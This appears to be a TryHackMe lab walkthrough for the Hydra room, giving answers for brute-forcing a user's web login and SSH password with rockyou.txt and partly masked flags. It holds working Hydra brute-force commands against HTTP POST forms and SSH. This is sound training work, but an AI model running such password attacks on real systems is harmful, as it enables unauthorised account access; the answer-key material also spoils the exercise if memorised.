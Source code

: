 # TryHackMe Hydra
**Learn how to brute-force authentications services such as SSH and HTTP (POST).**

## Task-1 Hydra Introduction

1. Read the above and have Hydra at the ready.<br>
Answer : Read and submit

## Task-2 Using Hydra

1. Use Hydra to bruteforce molly's web password. What is flag 1?<br>
Answer : THM{2673****************************}
* This can be done by basic hydra command (*hydra -l molly -P rockyou.txt http-post-form "/login:username=^USER^&password=^PASS^:incorrect" -V*) as given in description

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?<br>
Answer : THM{c8ee****************************}
* This can be done using command (*hydra -l molly -P rockyou.txt ssh -V*). You will get password as 'but******' and then login to ssh using this command (*ssh molly@IP*). Now 'ls' and 'cat' the flag.